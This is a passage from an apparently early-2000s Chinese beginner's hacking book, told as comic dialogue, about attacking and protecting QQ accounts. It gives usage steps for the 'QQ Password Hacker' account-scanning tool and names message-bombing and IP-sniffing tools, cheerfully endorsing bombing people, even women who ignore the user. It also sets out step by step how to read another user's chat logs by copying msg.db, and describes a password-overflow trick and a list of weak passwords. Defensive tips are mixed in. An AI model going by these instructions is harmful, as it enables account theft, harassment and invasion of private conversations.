使用方法：下载并解压 QQ Password Hacker 后，打开 QQPH 文件夹，会看到如图 2-2-6 的几个文件：



这里的配置文件 `qqph.cfg` 不要修改，程序界面下什么都有。

第一步：打开 `ScanNumber.txt`，将你要扫描的号码段填入里面。

如果你要用代理来进行扫号的话，打开 `proxy.txt` 进行代理编辑，代理格式为“代理IP:端口号”，比如 `211.111.4.72:8888`。

`password.txt` 不用再说了吧。

第二步：一切准备就绪之后，打开主程序 `QQPH.EXE`（如图 2-2-7），主界面下的功能一目了然，只要注意间隔是以 1/10 秒为单位的就可以了。另外，一定要“启用代理列表”和“启用校验号”。

- 如果使用代理总是失效，这通常不是你的错，而是 QQPH 使用代理的缺点；非用 QQPH 不可的话，试试不用代理。  
- 如果误报现象严重，可能是因为你的代理不好。  
- 关闭 QQPH 时会延时是经常的现象，这是数据未处理完毕，耐心等待一会，它会自动关闭。



综合以上说的几个软件（不就三个吗，几个？搞得好像很多一样。阿瓜心下嘀咕。），你可以根据自己的需要，选择适合的扫号工具。

> “被别人把这些软件用到自己身上的话怎么办呢？”

东东是好东东，但是，万一个不小心，被人反施其道，自己不是难以招架吗？

榕哥可学聪明了，伊伊呀呀地半天也不喷出个字来。

阿瓜又不是天生的笨蛋，他当然心领神会，现在已经到了“山清水秀”的境地了，只好又拱出一罐旺仔，双手奉上。

榕哥眉开眼笑。那架势，玩过大富翁的人都知道，钱夫人总有那么一句话挂在嘴边上——今夜做梦也会笑！

言归正传：

收了人家的好处了，所谓拿人的手软，吃人的嘴短。很快，榕哥就重新振作起来了。这一高兴，就又来了点赠品啦！榕哥说：“就顺便给你说一下 QQ 轰炸的方面吧……”

## 2.2.3 轰炸骚话

QQ 的轰炸，简单地讲就是在极短的时间内发出大量的信息给某个 QQ 账号，使之应接不暇，系统速度变慢直至下线或当机。

> 固然给你讨厌的人发炸弹有其强大的威力，在骗 MM 方面也有意想不到的神奇功效。……“这么黑，连 MM 都炸？”……“没办法，谁叫她‘假装’不理不睬。……”

> “快告诉我这类工具都有哪些？”

“我想想……有：聊天宝宝、聊天圣手、梦聊、OicqBomb、OicqNuke、OicqSpy、OicqJoke 之类……”


这种工具又可以分成两个方向：一种是侦听好友的 IP 地址，另一种是侦听好友的在线情况（在线、离线、隐身等）。

- 侦听 IP 地址：IpSniper、FolkOicq 等  
- 侦听在线情况：OICQ 神目等

IP Sniper 是在客户端运行的 OICQ 外挂软件，可从底层监控 QQ 通讯并显示 IP 与端口，支持多账号监视；新版还可修改 QQ 客户端默认端口，绕过部分代理端口限制。

FolkOicq 是可显示 IP 的 QQ 主程序，不依赖原始 QQ 主程序支持。OICQ 神目用于查询一批好友在线状态，支持自定义列表和自动定时查询，并可声音提醒。


文中指出：知道对方 IP 既有意义也有风险；完全隐藏自身 IP 几乎不可能，但可通过隐身、代理等方式降低暴露。部分老工具对新版 QQ 已失效。

此类工具很多，如 oicqsniffer、xoicq、cicqsend、netxray 等；实施轰炸需正确填写 IP 和端口，常见软件包括 oicqbomb、oicqnuke、oicqspy、oicqjoke。

虽然 QQ 持续升级，但这些工具依然基于 TCP/IP 协议进行探测与发送，基础网络协议本身难以被单一厂商改变。

文末继续讨论利用加好友、发送消息与验证绕过等方式探测目标 IP 与端口，并引出更多相关工具与技巧。

在你的陌生人名单里，这样你可用第三只眼的 xoicq 4.5 版查看陌生人的 IP 和端口。

“如何？可千万不要炸我呀！（听你的才有鬼，阿瓜心想。）”

“这么说来，IP 是很重要的喽？”

“废话，说了这么多你还不知道吗？”榕哥生气了。

“那怎么样才能保护好自己的 IP 不被人知道呢？”

## 傻瓜经验篇

简单而有效的办法就是隐藏自己的 IP。（废话！怎么隐藏？这才是关键！）

使用代理服务器上 QQ 是一种较为简单实用的办法。

- 1. 打开 QQ 的“系统参数”；  
- 2. 单击“网络设置”，选中“使用 SOCKS5 代理服务器”；  
- 3. 在“代理服务器地址”“端口号”“校验用户名”“校验用户名密码”处输入代理地址（可用 SOCKS4/SOCKS5，端口常为 1080）；  
- 4. 填入 IP 和端口，点击“测试”，有效则提示“代理服务器工作正常”，否则提示“无法连接到代理服务器”；  
- 5. 点击“确定”完成。

代理服务器的地址很多网站有提供，这里给你介绍几个常用的。

| 代理地址 | 类型 |
|---|---|
| 211.20.11.155:7718 | SOCKS5 |
| 211.20.13.3:7718 | SOCKS5 |
| 211.20.13.4:7718 | SOCKS5 |
| 211.20.15.34:7718 | SOCKS5 |
| 211.21.2.253:1813 | SOCKS5 |
| 211.21.32.171:7718 | SOCKS5 |
| 61.72.76.11:12345 | SOCKS5 |
| 61.72.71.82:12345 | SOCKS5 |
| 61.72.80.163:12345 | SOCKS5 |
| 61.72.76.198:12345 | SOCKS5 |

顺便再一起给你一些代理服务器的密集区间吧。（纯粹顺手而已）

| IP 区间 | 说明 |
|---|---|
| 202.22.224.0–202.22.253.255 | 上海 |
| 202.101.0.0–202.101.63.255 | 上海 CHINANET-SH 用户 |
| 202.22.254.0–202.22.254.255 | 上海深圳黎明网络公司上海分部 |
| 202.22.255.1–202.22.255.255 | 上海 YI |
| 202.109.10.0–202.109.10.255 | 上海热线 |
| 202.109.14.0–202.109.31.255 | 上海热线 |
| 202.112.40.0–202.112.47.255 | 上海教育网信息中心 |
| 202.120.0.0–202.120.63.255 | 上海交通大学 |
| 202.120.64.0–202.120.79.255 | 上海医药大学 |
| 202.120.112.0–202.120.127.255 | 上海大学 |
| 202.120.128.0–202.120.143.255 | 上海第二医药大学 |
| 202.120.160.0–202.120.175.255 | 上海铁道大学 |
| 202.120.176.0–202.120.191.255 | 上海同济大学 |
| 202.120.192.0–202.120.199.255 | 上海市教委 |
| 202.120.200.0–202.120.203.255 | 上海教育 |
| 210.35.64.0–210.35.67.255 | 上海冶金高等专科学校 |
| 210.35.68.0–210.35.71.255 | 上海电视技术高等专科学校 |
| 210.35.72.0–210.35.79.255 | 上海对外贸易学院 |
| 210.35.80.0–210.35.83.255 | 上海市经济管理干部学院 |
| 210.35.88.0–210.35.95.255 | 上海电力学院 |
| 210.35.96.0–210.35.99.255 | 上海化工高等专科学校 |
| 210.35.104.0–210.35.107.255 | 上海商业职业技术学院 |
| 210.35.124.0–210.35.127.255 | 上海中学教育信息中心 |
| 210.72.8.0–210.72.15.255 | 上海中国中科院网用户 |
| 210.74.224.0–210.74.255.255 | 上海电话发展总公司 |
| 202.121.0.0–202.121.15.255 | 上海教育委员会信息中心 |
| 202.121.20.0–202.121.23.255 | 上海公安高等专科学校 |
| 202.122.0.0–202.122.7.255 | 上海复旦大学 |
| 202.127.0.0–202.127.1.255 | 上海天文台 |
| 202.127.16.1–202.127.31.255 | 中科院上海分院 |
| 202.130.248.0–202.130.249.255 | 上海东方网景拨号用户 |
| 202.95.2.0–202.95.3.255 | 上海 SHSCO 公司 |
| 202.96.192.0–202.96.255.255 | 上海 CHINANET-SH 用户 |
| 202.96.218.0–202.96.231.255 | 上海热线公众网用户 |
| 203.93.0.1–203.93.255.255 | 吉通&金桥 |
| 203.93.56.111–203.93.56.230 | 上海吉通拨号用户 |
| 203.207.144.0–203.207.144.255 | 上海经济信息网用户 |
| 202.38.132.0–202.38.134.255 | 上海大众汽车公司 |
| 202.38.135.0–202.38.135.255 | 上海交通大学 |
| 202.38.149.0–202.38.149.255 | 上海北方电信半导体公司 |
| 202.38.169.0–202.38.169.255 | 上海北方电信中国销售部 |
| 61.129.0.0–61.129.255.255 | 上海169网163地址 |
| 61.151.0.0–61.151.255.255 | 上海81000 |
| 10.95.0.0–10.102.255.255 | 上海169用户 |
| 10.100.0.0–10.100.1.255 | 上海169拨号用户 |


## 隐瓜提醒

要特别注意的一点是：按照上述方法找到确实可用的代理服务器后，要先退出 QQ，再启动 QQ 重新登录，这样才会改变 QQ 的 IP，否则 QQ 的 IP 是不会改变的。代理服务器有时候会失效，需要换一个新的服务器。此方法只能隐藏 QQ 的 IP，即别人通过一般的 QQ 工具查不到你的真实 IP 地址（但是高手还是有办法查出你的真实 IP 的）。

还有一点是，这种办法对消息炸弹毫无用处。因为消息炸弹和一般的消息无异，只是时间短得多而已。拒绝 QQ 消息炸弹其实很简单，只要在“系统参数”“安全设置”项选中“拒绝陌生人的消息”就可以了。这两种方法一起用的话，通过 QQ 攻击你的可能性就大大降低了。


在此再顺便给你介绍一种方便的 QQ 谋生技巧。在同一台电脑上可以同时打开多个 QQ，这一点有很多朋友都知道。首先你要有两个 QQ 号码，如果你没有，就再注册一个。不过现在申请号码可是比盗号码还难啊——所以这注定了 D 版的猖獗，嘿嘿！


- 1. 第一步：用你备用的号码（如 111111）登录，这样这个 IP 地址在 QQ 上就被分配给 111111 了。接下来当然是用你常用的那个了。  
- 2. 第二步：登录后，在备用的 QQ 上做一下调整。在“个人设定”中的“网络安全”项将“身份验证”设为“不允许任何人把我列为好友”，点“修改”让服务器确认。  
- 3. 第三步（可跳过）：在 QQ“系统参数”“参数设置”项的“综合设置”把“显示登录提示框”前的对勾去掉。  
- 4. 第四步：最关键的步骤到了！在 QQ“系统参数”“网络安全”项的“高级安全设置”将“拒绝旧版本陌生人消息”和“拒绝旧版本所有消息”前统统打上勾，点“确认”退出设置。

> 好了！经过这么一番设置，有人再扫描到你的 IP 地址时，你就再也不会看到那个讨厌而又有点担心的对话框了！当有无聊的人再用 WhoCQII 对你的 IP 地址发消息时，给他返回的只是一串串警告消息：

（111111）-1123211-8-1-22:08:23 自动回复：

> “我现在用的就是新版本，不接受老版本发来的消息，你要的话自己到 www.tencent.com 下载最新的 version！”

“你则不会再有任何影响，就像没发生过一样！怎么样，是不是有点以牙还牙的快感了？”阿瓜用怀疑的眼光看着榕哥……“不信？你可以试试啊。”……“果然，太好了！”你看阿瓜他笑得那么灿烂。

“啊，怎么说到这里来了，刚才是说到扫号软件的，我正问你碰到这些扫号软件的话怎么办呢！”阿瓜突然想起来，看来他对刚才扫号软件的介绍还是余悸未消。兴头上的榕哥当然一口应承：“那就给你说一说如何避免扫号工具的骚扰，干嘛是没有半点用的！报告警察叔叔也救不了你。”

#### 2.2.4 如何避免扫号工具的骚扰

因为扫号软件主要不是针对某一个人，而是以发现空闲不用的号码为主。所以，这一类工具对个人用户的威胁不是很大。要避免它们的骚扰，只要做到以下两点就可以了。

- 去腾讯的网站上申请密码保护，密码保护的号码可以避开一些扫号者。即使号被扫到，用密码保护还可以取回丢失的密码。  
- 尽量使你的密码长度大于 8 位而且大小写混杂，有可能的话再加上一些符号，绝对不要用简单的数字如生日或者电话号码等来作为自己的密码。

“现在怎么都好像很难啊，我记得以前都很简单的嘛~！随便一下，号码就被人占了！”“是黑啦！”榕哥摇摇头，长叹了一口气。以前，各种 QQ 密码工具之所以能够频频得手，一方面是因为 QQ 内在的原因——天生残疾，有太大的安全性能缺陷。

由于 QQ 早期采用的是安全性、保密性较差的 UDP 数据包进行通讯，而 UDP 通讯与 TCP 协议通讯不同，TCP 是要经过双方认证后才能进行通讯，而 UDP 是不需要认证许可就可以发送的。

早期版本时没有充分注重保密性，在账号密码和本地消息存储加密上都出现过相当大的安全隐患，这些问题随着腾讯公司新版本 QQ 的不断推出而暂时得以缓解。但是每次在腾讯公司推出升级版不久，网上就可以下载到相应的解密软件；另一方面是因为用户本身安全意识不高，如在网吧、学校等公共机房上网时，没有在离开的时候把自己的信息擦除掉，随意运行不明的程序。这些都可能导致用户的 QQ 号码被盗用。

许多 Cracker 已经熟练于采用冰河、BO2000 等远程控制类木马软件对 QQ 密码进行远程破解，各类炸弹也泛滥成灾。所谓“上有政策，下有对策”。不管腾讯公司怎样应付，问题总是层出不穷。

按照腾讯公司的规定，可以在用户忘记密码时将 QQ 密码发送回其个人资料上所填写的信箱，于是 Cracker 就把矛头指向了 QQ 用户的免费信箱，巧妙利用这个漏洞，对信箱密码进行破解。这种破解方法其实是转移了大家的视线，因为许多人往往在注重 QQ 密码安全的同时忽略了对个人信箱的保护。

一时间这种方法很是流行，也非常奏效，结果许多人本来丢个号码就拉倒了，现在还要赔上一个 E-mail，哭都没泪。针对这一点，腾讯公司在一段时间内停用发送密码功能，逐渐改进并开发了现有的密码保护功能，使 QQ 和信箱彻底“分离”开来。

> “那现在就安全了！”阿瓜欣然于色。  
> “也不是。”榕哥面带忧色。

## 【侵入姿势】

QQ 的密码最多是 16 位，有人用特殊的方法让密码超过 16 位，造成密码溢出。这样当你想取回密码的时候，腾讯的密码保护最多只会给你 16 位密码，而盗号者设定的密码超过 16 位，超出的密码就不会在信上显示出来。密码保护也就失效了。

有人说在 Windows 2000 下取回密码保护，这样把信上的密码复制下来，再粘贴到 QQ 上，这样就可以取回来了。这也许是唯一的解决方案。还有人去腾讯的 QQ 号码被盗申诉表中去找那些已经证实了的 QQ 号码，然后在腾讯中查找他的邮箱，再用扫描邮箱工具得到邮箱密码，最后进入邮箱得到申请的密码保护资料……


“那可怎么办啊？”阿瓜又担心起来，还真是容易变。

“不用担心。正所谓‘魔高一尺，道高一丈’。（好像是倒过来说的吧，还是让人担心啊！）QQ 在不断地升级和完善，只要在平时的应用中多加注意，还是有办法对付密码的盗窃者的。”榕哥安慰阿瓜。

### 2.3 家贼难防——本地信息的查看

“密码的东西已经说了那么多了，腻了吧？就算你不腻我都有点烦了。”

现在，我们暂时告别密码，来关注一下另外一个敏感的话题——本地信息。

**本地信息：**是指你在登录 QQ 后留在机器上的好友名单、聊天记录等个人资料（刚才已经说过它放在哪里了，不用我再说一次吧？）。这些资料记录了你网上交往的细节，是绝对的个人隐私。

可是，通过本地信息查看工具，别有用心者可以绕过 QQ 的壁垒，轻松地得到它们。想象一下，你和老板讨论的工作细节、朋友间的交心之谈、和女友的甜言蜜语，都被他人一览无遗，还有什么颜面活在这世上。死了算了，一了百了，省得搞你个身败名裂。你一定不希望这样的事情发生在自己身上吧。（废话，换了是你你也不愿意啦！）那就让我们一起来摸清“本地信息查看”的来龙去脉。

首先是处理本地信息，如果是在自己的机器上网，整理本地信息是很重要的，可以免除使用上的不便。

下面介绍两种方法。

阿瓜很诧异地看着榕哥。

> “小子不信我啊，那就给你讲讲不用软件也能搞到你的本地信息，比如你和哪个妹妹的甜言蜜语，嘿嘿，叫你知道厉害。”

#### 实操步骤

“我们大家先知道每次登录的 QQ 里都有一个独立的文件夹，这个文件夹下面有这么几个文件（`号码.abs`、`user.db`、`msg.db`）。我们先不管前面的文件，先来看 `msg.db` 这个文件，它就是放用户聊天记录的文件。知道它是干什么后的话就好办了，事情开始明朗化。”

- 1. 首先：我们先看看你的聊天记录吧，比如说是 16888；  
- 2. 第二步：把这个 QQ 下面的 `msg.db` 文件复制到我的 QQ 目录下面，覆盖你的 QQ 目录下面的 `msg.db` 文件；  
- 3. 第三步：打开你的 QQ，登录输入你的密码。输入完密码后会出现一个新的对话框，要求输入本地消息密码；  
- 4. 第四步：在填本地密码的时候填你的另一个号码的号码就可以；  
- 5. 第五步：此时就能登录上你的 QQ，然后通过菜单进入消息管理即可查看内容。

“哎哟，这可真是危险，那要怎么才能防止这东西不被人看到呢？”阿瓜问。

“有好几种方法的，现在就给你说说吧！被吓坏了吧，小子？”榕哥倒是装出一副和蔼可亲的样子。

#### 1、直接删除法

- 1. 第一步：打开资源管理器，找到 QQ 所在目录，里面有一个 `dat` 文件夹，打开后可以看到一个 `oicq2000.cfg` 文件，删除这个文件，同时删除 QQ 目录下面不属于你的号码的文件夹。  
- 2. 第二步：连接上网，启动 QQ，会出现注册向导，依次输入属于自己的 QQ 号码，进行注册，完成以后你就发现里面除了自己的号码外，再也没有其他号码了。

这种方法简单易行，任何人都可以操作，唯一的缺点就是要重新读取好友名单，会读出你在老版本 QQ 上面删除的用户。


#### 2、oicq2000.cfg 修改法

适用于那些要删除号码都集中在列表后部的情况，不然修改过程将很繁琐。

第一步：下载可以进行二进制编辑的软件，比如 UltraEdit，然后用它打开 oicq2000.cfg 文件，注意在修改前进行文件的备份。

第二步：记录你的 QQ 登录列表上面一共有几个号码，假设有 5 个，记下这个数字。

第三步：打开 oicq2000.cfg 文件第一排，你可以发现第一个非零的数字（设它为 A，先应为 5）就是表示你的号码个数，右边部分是你列表中的号码。选择不需要的号码，删除。记下删除后剩余的号码个数，修改 A 为现在的号码个数，存盘退出。


通过上面两种方法，我们很容易地解决、整理了号码列表，更便于 QQ 的使用。你可以将自己修改后的 oicq2000.cfg 保存一份，以后只需要覆盖就可。

还有，别忘了给自己的本地消息加一个口令。



### 2-3-1 本地安全设置

如果你是在网吧上网，就给自己的本地消息加一个口令。许多人并不太重视这个口令，认为有 QQ 密码就够了，那我们家里的防盗锁为什么要有两道或是更多道保险呢？尽管 oicqsprend 宣称能看所有版本的聊天记录，但我试过，对这种本地信息口令保护的账号只能看到好友名单，而聊天记录则是一堆乱码。

还有一种一了百了的方法，就是彻底删除 QQ 安装目录下以你账号命名的文件夹的所有内容。这样一来你可高枕无忧，下次登录 QQ 的时候，服务器又会把你的基本资料传送回来。不过这种方法有个弊端，传送回来的资料里并不包括好友聊天记录。除此之外，还可以利用工具来保护本地信息。

“有什么好的工具呢？”阿瓜这小子就是耐不住性子，几乎不等人说完便脱口而出。

> “像这类清除记录工具也有很多的啦，我说几个给你看。”榕哥倒是成熟稳重，不乱了自己脚步——一看你怎么狼嚎，我讲我的，不被你乱了自己的心性——看过《第一次亲密接触》就知道啦，里面不就有一段大概就是这么个意思嘛（具体的我也给忘了）：不因外界的喧嚣而凌乱自己的步伐，因为自己年轻的心……（隔了太久了，忘了~~~）

## 傻瓜秘籍：

## ◎ QQ 记录清除器 V1.3

这个小工具可以轻松地清除你的本地信息，在网吧里这种短小精悍的软件最能帮忙。找到它后仔细读一下 readme 就知道怎么用啦。但是不管怎么保护，都未必有绝对保证，密码丢掉仍然是有可能的。

“那怎么办呢？”阿瓜显然丢了半条命，听榕哥这么一说后。

> “如果你的号码被盗，不是一定能找回的，但也不是绝对没有可能，因为世界上没有绝对的事情。”榕哥熟得快烂掉地说。

我们来分析一下盗号后号码的流向。号码被盗后，大部分去向不是留在他本人手里，号码的路径有一部分是经过聊天室被聊天室的“高手”送出去了，这里又分为两种情况。

一种情况是：你的号码很整齐、漂亮、短，像 5、6、7 位等。那么希望就不是很大了。如果你的号码有密码保护，并且你能记得申请保护的资料，那么一般都能拿回来。把你收回密码的信箱改为能收密码的信箱，比如 163.com、163.net 等，然后多试几次就能取回密码。

另一种情况是你的号码不是很漂亮，比如 8 位、9 位的一般号码，并且没有保护，那么也有 50% 的成功率能取回。为什么这么说呢？我们来分析一下号码经过的途径。你的号码的密码也许很复杂，但是为什么会丢呢？难道真有“高手”？木马就是这些“高手”的法宝。

哼！他们拿到号码后大部分是到聊天室或者论坛去“狂送”了。当然得到这个号码的人也怕送号码的人有保护，然后把密码取回，顺便把自己的号码给弄回去了，所以“抢”到号码的人也就都随便把密码改了一下，然后就继续“抢”去了。所以我们再来分析一下常用的密码：

```
123.1234.12345.123456.111.1.11.1111.0.
00.0000.000.aaa.aaaa.aa.a.ddd.dd.d.asd.asdf
```

相信大部分人扫号码的也都用这些个密码吧！我说的号码有 50% 的成功率能取回，说的就是这些个密码能拿回了。好了，你丢过什么号码，赶快用上面的密码来个“我猜，我猜，我猜猜猜”吧！也许就能成功的！如果成功算你走了狗屎运；如果不成功，也很正常，反正号码已经丢了，还在乎这个做什么？

我们的原则只是：试一下有 50% 的成功几率，否则半点都没有。那你要不要试呢？

另外还要拿回号码呢，这样吧，刚才给你说了那么多黑软了，你自己慢慢在实践中找回来吧！

在榕哥一阵狂侃后，阿瓜似乎有点领悟了，一边看着自己的“旺仔”“红牛”，咬牙切齿，心里那个恨啊！可是叫自己菜鸟一个呢；一边高歌榕哥的“武功”：“only u~~~能保护我……on~~~ly u~~~on~~~”

> “on 你个头啦！”

不管怎么说，他总算是小小地武装了一下，武装镇压一切，现在谁怕谁啊！


## 第三章 幽里的世界

## ——利用网页的攻击与防范


这天阿瓜又上网冲浪。阿瓜自从玩转了 QQ 后，感到自己的水平有了大大提高，于是自然对那些黑客站点大大地有了兴趣。于是阿瓜就在网上东冲西闯，找了好多关于黑客知识的内容过瘾。可是网络上有鲜花也有毒草，各个网站也是杂七杂八，什么样的都有。这不，阿瓜在上网冲浪的时候中招了。

阿瓜在打开一个网页页面的时候，竟然看到浏览器里不停弹出对话框和新窗口，根本关不完，一直到死机，最后只好重启。等重启后，发现浏览器默认的主页竟然被修改成了某个曾经去过的站点主页。同时，IE 浏览器的标题栏文字也变成了该网站的广告，看着很不顺眼。阿瓜很气恼，决定和电脑拼了。

不过，阿瓜想了想，决定还是先给电脑治治病再说。阿瓜想了想为什么会有那么多窗口，结果……没想出来。于是阿瓜决定先把主页改过来。阿瓜最喜欢空白页了，一开浏览器，就是一个烂网站的主页，简直让阿瓜无法忍受。

修改默认主页阿瓜还是会的，阿瓜想：小儿科。因为他看见别人弄过。阿瓜点击 IE 浏览器的菜单“工具”→“Internet 选项”，弹出一个对话框，如图 3-1-0。



3-1-0 Internet 选项对话框修改默认主页

点击“使用默认页”，确定。OK，设置完了。关掉浏览器，重新启动浏览器，应该可以了，阿瓜还是相信自己的技术的。

“我靠！”，阿瓜大喊。阿瓜大喊是因为他看到不可思议的事情——浏览器的主页竟然还是那个破网站的主页！

“有鬼啊”，阿瓜大喊一声就要往网吧外面跑，一抬头，看到了榕哥。榕哥问：“怎么了？”阿瓜前言不搭后语地说了刚才的事。

榕哥听了嘿嘿一笑，说：“别怕，阿瓜，我来帮你把鬼赶走。”榕哥坐到阿瓜的电脑前，十指迅捷地舞动。阿瓜耳听到噼里啪啦之声不绝于耳，又眼见屏幕变换不定，不禁惊呆了。仿佛过了很久，又仿佛只在瞬间，阿瓜忽然听到了一阵美妙的音乐，啊，是美妙的 Windows 重启的声音。阿瓜缓过神来，看到电脑屏幕上出现了一个浏览器，而浏览器的主页竟然又换成了自己最喜欢的“about:blank”，阿瓜高兴地跳了起来。

阿瓜跳了一阵后，停了下来，对榕哥说：“这是怎么回事啊？”榕哥听到这个问题，转过头来盯着阿瓜茫然的眼睛看了 2 秒钟，又迟疑了一下，试探着问：“你真的想听？”阿瓜想了 5 秒钟，什么也没说，“嗖”地一声冲出了网吧。15 秒后，阿瓜“嗖”地一声冲进了网吧。阿瓜站定，向榕哥一伸手，手上拿着一支香喷喷的奶油巧克力冰激凌。榕哥抓过冰激凌，乐了，说：“好，听我慢慢说给你听。”

